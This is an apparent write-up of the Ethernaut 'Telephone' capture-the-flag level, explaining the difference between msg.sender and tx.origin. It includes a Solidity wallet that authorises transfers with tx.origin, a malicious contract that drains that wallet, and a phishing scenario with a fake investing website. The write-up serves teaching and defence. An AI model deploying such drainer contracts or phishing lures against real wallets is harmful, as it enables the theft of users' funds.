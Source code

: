 [Level 4. Telephone](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)

## Concepts

1. The meaning of `msg.sender` and `tx.origin`, also the difference between these two global variables.

## Level Target

1. Take ownership of the contract.

## Breakdown & Analysis

1. Let's begin by identifying the lines of code that pertain to assigning the value of `owner`.

    1. The assignment in the function `changeOwner`.
   
    2. There are no other lines allowing us to change the value of `owner`. (we can’t get access to the `constructor` since it’s not included in the contract bytecode)
    
    So the only way is to crack from the function `changeOwner`.
    
2. To successfully call `changeOwner`, we’ll have to make the value of `msg.sender` and the value of `tx.origin` different.

    1. **`msg.sender` is the last caller that invokes the function, it can be an externally-owned account(EOA) or a contract account(CA).**
   
    2. **`tx.origin` is the original caller that starts the transaction, since smart contracts can’t be invoked automatically, there will be an EOA that initiates the transaction, so `tx.origin` can only be an EOA.**
        
    Consider a simple example: Alice → contract A → contract B.
        
    The `msg.sender` of contract B is the address of contract A, yet, the `tx.origin` of contract B is Alice.
        
    And that is how we can make `msg.sender` and `tx.origin` different in this level.
        

## Detailed Steps

See [Attack.sol](https://github.com/timou0911/Ethernat-Solution-and-Explanation/blob/main/4.%20Telephone%20%E2%98%85%E2%98%86%E2%98%86%E2%98%86%E2%98%86/Attack.sol).

## Fhishing through `tx.origin`

Let’s say we have a contract called Wallet and Bob staked his ether inside it. Here’s the code:
```Solidity
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(owner == tx.origin, "Not owner");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Tx failed");
    }
}
```

And the code below is a malicious contract:

```Solidity
contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet); // the target address
        owner = payable(msg.sender); // the attacker
    }

    function attack() public { // 
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

Here’s one possible hacking process:

1. First of all, the attacker discovered that Bob is fascinated by crypto investment.

2. The attacker sends a fake crypto-investing teaching website to Bob via email.

3. Since it is common to connect a wallet to such websites, Bob may be lured to purchase a lesson by signing the transaction through his wallet.

4. However, the transaction he signed didn’t buy him the online lesson; the transaction calls `attack` in the malicious contract, and then `attack` calls `transfer` in the Wallet contract, transferring all of Bob’s ethers to the attacker’s wallet.

5. Actually, Bob does get a lesson now.

Attackers may utilize soical engineering to incresase the success rate. Also, they can create multiple contracts to hide their real purpose.

To protect your contract, it’s not suitable to check permission through `tx.origin`. **A better practice is to use `msg.sneder`.**
